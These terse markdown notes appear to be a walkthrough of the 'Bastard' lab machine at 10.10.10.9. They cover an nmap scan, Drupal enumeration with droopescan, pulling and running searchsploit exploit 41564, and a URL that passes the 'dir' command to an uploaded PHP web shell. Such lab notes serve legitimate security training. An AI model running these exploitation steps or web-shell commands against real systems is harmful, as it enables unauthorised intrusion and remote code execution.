

# Bastard

```aidl
 nmap -sC -sV -oA nmap/bastard 10.10.10.9
 
```
> 10.10.10.9/CHANGELOG.txt  
google -> iis version  
google -> drupal 7.54 exploits
``` 
cd /opt/droopscan/
./droopscan drupal -u 10.10.10.9
```

``` 
searchsploit drupal
searchsploit -x php/webapps/41564.txt

mv 41564.php drupal.php
vi drupal.php
php drupal.php 
```

> 10.10.10.9/ippsec.php?fexec=dir
   

